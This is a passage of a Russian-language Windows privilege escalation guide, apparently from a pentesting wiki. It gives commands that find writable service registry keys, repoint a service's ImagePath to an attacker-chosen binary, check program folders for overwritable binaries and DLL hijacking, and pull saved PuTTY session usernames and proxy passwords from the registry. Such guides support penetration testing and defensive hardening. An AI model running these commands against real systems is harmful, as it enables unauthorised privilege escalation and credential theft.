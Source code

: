 ```
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Проверьте, есть ли у **аутентифицированных пользователей** или **NT AUTHORITY\INTERACTIVE** полный контроль. В этом случае вы можете изменить двоичный файл, который будет выполняться службой.

Чтобы изменить путь исполняемого файла:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

# Приложения

# Установленные приложения

Проверьте **права доступа к двоичным файлам** (возможно, вы сможете перезаписать один из них и повысить привилегии) и к **папкам** ( [захват DLL](/windows-hardening/windows-local-privilege-escalation/dll-hijacking) ).

```
dir /a "C:\Program Files"

dir /a "C:\Program Files (x86)"

reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime

Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```

# Файлы и реестр (учетные данные)

```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | findstr "HKEY_CURRENT_USER HostName PortNumber UserName PublicKeyFile PortForwardings ConnectionSharing ProxyPassword ProxyUsername" #Check the values saved in each session, user/password could be there
```

# Ключи хоста Putty SSH
